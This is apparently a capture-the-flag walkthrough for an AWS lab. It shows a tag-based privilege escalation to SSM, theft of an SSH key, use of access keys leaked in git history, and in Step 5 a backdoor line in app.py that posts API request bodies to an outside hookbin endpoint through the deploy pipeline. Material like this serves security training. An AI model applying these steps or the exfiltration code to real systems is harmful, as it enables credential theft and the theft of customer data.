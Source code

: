 

## Step 1

You are given credentials of an initial IAM user. 

Using the AWS CLI or AWS Console (e.g. using `aws-vault add initial` then `aws-vault login initial --no-session`), note that the IAM policy attached to your user allows it to establish a SSM session on all EC2 instances tagged with `Environment=sandbox`, and to manage tags of all EC2 instances tagged with `Environment=dev`.

Check the running EC2 instances. You notice one is tagged with `Environment=dev`, and you therefore can't SSM to it. Instead, overwrite the `Environment` tag with the value `sandbox`, then establish a SSM session to the instance:

```
aws ec2 create-tags --resources i-xxxx --tags Key=Environment,Value=sandbox
aws ssm start-session --target i-xxxx
```

If ssm start-session does not work make sure to install the ssm [session-manager plugin](https://docs.aws.amazon.com/systems-manager/latest/userguide/session-manager-working-with-install-plugin.html). 

## Step 2

On the instance, notice the private SSH key stored at `/home/ssm-user/.ssh/id_rsa`.

![Screen Shot 2022-06-21 at 6 29 59 PM](https://user-images.githubusercontent.com/4079939/174924027-54c04c15-a025-40f6-b0ba-be3d143be3d3.png)

- Copy the SSH key to your local machine (`~/.ssh/stolen_key`) and run `chmod 600 ~/.ssh/stolen_key` on it.

Next you can extract the corresponding public key fingerprint to notice it is linked to the CodeCommit credentials of the IAM user `cloner`, who has the permission `codecommit:GitPull` on a repository:

```
$ chmod 600 ~/.ssh/stolen_key
$ ssh-keygen -f ~/.ssh/stolen_key -l -E md5
2048 MD5:c8:86:28:03:a1:d5:af:77:2c:62:6a:73:59:69:c6:ba no comment (RSA)

$ aws iam list-ssh-public-keys --user-name cloner
{
  "SSHPublicKeys": [
    {
      "UserName": "cloner",
      "SSHPublicKeyId": "APKA254BBSGPK2B5K5YQ",
      "Status": "Active",
      "UploadDate": "2021-12-27T10:34:19+00:00"
    }
  ]
}
$ aws iam get-ssh-public-key --user-name cloner --ssh-public-key-id <SSHPublicKeyId found above> --encoding PEM --output text --query 'SSHPublicKey.Fingerprint'
c8:86:28:03:a1:d5:af:77:2c:62:6a:73:59:69:c6:ba
```

## Step 3

Set up your local environment to clone the repository using the [CodeCommit documentation](https://docs.aws.amazon.com/codecommit/latest/userguide/setting-up-ssh-unixes.html). In short:


- Find the CodeCommit user ID of `cloner` using `aws iam list-ssh-public-keys --user-name cloner --output text --query 'SSHPublicKeys[0].SSHPublicKeyId'`

- Use the following SSH configuration (in your `.ssh/config`):

```
Host git-codecommit.*.amazonaws.com
	IdentityFile ~/.ssh/stolen_key
	PubkeyAcceptedAlgorithms +ssh-rsa
        HostkeyAlgorithms +ssh-rsa
```

- Then, clone the repository using `git clone ssh://<SSH-KEY-ID>@git-codecommit.us-west-2.amazonaws.com/v1/repos/backend-api` (where `SSH-KEY-ID` should look like `APKA2...`)

## Step 4

The repository contains the backend code of the Lambda function exposed through the API gateway. Check the commit history to note a leaked access key:

```diff
commit 576bc9e2979cb780dacefa1cf758dabb29f6b223
Author: christophe <christophe>
Date:   Mon Dec 27 10:38:31 2021 +0000

    Use built-in AWS authentication instead of hardcoded keys

diff --git a/buildspec.yml b/buildspec.yml
index 7130465..4beaa61 100644
--- a/buildspec.yml
+++ b/buildspec.yml
@@ -1,22 +1,20 @@
-      version: 0.2
+version: 0.2
 phases:
   pre_build:
     commands:
-    - export AWS_ACCESS_KEY_ID=AKIA...
-    - export AWS_SECRET_ACCESS_KEY=hnOVW...dtX
     - echo "Authenticating to ECR"
```

## Step 5

These credentials you found belong to the user `developer`, who has pull and push access to this repository. Use this access to backdoor the application and steal the sensitive data that customers are sending to the API!

- For instance, add a piece of code to the checked out repo that sends the secret data to an attacker-controlled server. You can use something similar to what is shown below, if you do, you'll want to first generate your own hookbin link at https://hookbin.com/.

```diff
diff --git a/app.py b/app.py
index 10e7da5..e17a2ba 100644
--- a/app.py
+++ b/app.py
@@ -3,6 +3,7 @@ import json

 def handle(event):
   body = event.get('body')
+  import requests; requests.post("https://hookbin.com/kx...", data=body)
   if body is None:
     return 400, "missing body"
```



- Ensure the credentials you found above are set in your environment or a profile.

export AWS_ACCESS_KEY_ID=AKIA...
export AWS_SECRET_ACCESS_KEY=hnOVW...dtX

- You can then commit the file and push it with the following AWS command:

```
$ aws codecommit get-branch --repository-name backend-api  --branch-name master
{
    "branch": {
        "branchName": "master",
        "commitId": "e6a2c7...."
    }
}

$ aws codecommit put-file --repository-name backend-api --branch-name master --file-content fileb://./app.py --file-path app.py --parent-commit-id <Commit ID found above>
```


Note that the application is automatically being built by a CI/CD pipeline in CodePipeline. It may take a bit to deploy, give it some time and you should see the flag show up on hookbin if you used the method above (you may need to refresh the page though).
